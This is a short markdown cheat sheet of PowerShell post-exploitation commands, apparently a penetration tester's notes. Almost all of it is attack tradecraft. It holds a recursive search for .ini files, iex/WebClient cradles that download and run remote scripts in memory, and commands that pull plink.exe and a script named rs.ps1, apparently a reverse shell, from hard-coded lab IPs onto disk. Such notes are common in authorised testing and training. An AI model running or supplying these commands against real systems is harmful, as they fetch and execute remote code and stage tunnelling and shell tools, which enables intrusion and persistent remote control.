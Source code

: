 # Memo Commands

## Memo commands

### ls

```csharp
Get-ChildItem  -Include *.ini* -File -Recurse -ErrorAction SilentlyContinue
```

## Powershell Webclient

### Download and execute into memory

```csharp
iex((new-object net.webclient).downloadstring('http://URL/file.something'))
```

### TLS \(in case of https ...\)

```csharp
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iex((new-object net.webclient).
downloadstring('http://URL/file.something'))
```

### Wget

```csharp
C:\>powershell (new-object System.Net.Webclient).DownloadFile('http://10.11.0.138/plink.exe','C:\plink.exe')
```

```csharp
powershell.exe -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://10.10.16.25/rs.ps1', 'c:\Windows\Temp\rs.ps1')"
```



